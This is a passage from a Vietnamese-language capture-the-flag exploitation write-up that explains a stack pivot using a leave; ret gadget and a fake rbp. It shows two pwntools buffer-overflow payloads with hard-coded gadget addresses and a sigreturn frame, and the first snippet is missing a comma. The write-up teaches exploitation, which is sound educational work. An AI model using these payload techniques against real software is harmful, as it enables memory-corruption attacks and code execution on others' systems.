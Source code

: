 Và ta sẽ muốn stack pivot để nhảy vào vị trí ta mới thêm:

```python
leave_ret = 0x401065

payload = b'A'*0x100
payload += flat(           # Change here
    b'BBBBBBBB'            # Change here (Fake rbp)
    0x401043,
    syscall,
    bytes(frame)
    )
payload = payload.ljust(0x400, b'P')
payload += flat(
    rw_section - 0x300,    # Saved rbp
    leave_ret)             # Saved rip
p.send(payload)
```

Lưu ý rằng sau khi ta stack pivot ở đoạn code trên, rbp lúc này không còn là địa chỉ hợp lí:

![gdb-register.png](images/gdb-register.png)

Vậy ta chỉ việc thay rbp thành địa chỉ ghi được thì khi thực thi read và write của chương trình sẽ không bị lỗi.

```python
leave_ret = 0x401065
payload = b'A'*0x100
payload += flat(
    rw_section,             # Change here (Fake rbp)
    0x401043,
    syscall,
    bytes(frame)
    )
payload = payload.ljust(0x400, b'P')
payload += flat(
    rw_section - 0x300,    # Saved rbp
    leave_ret)             # Saved rip
p.send(payload)
```
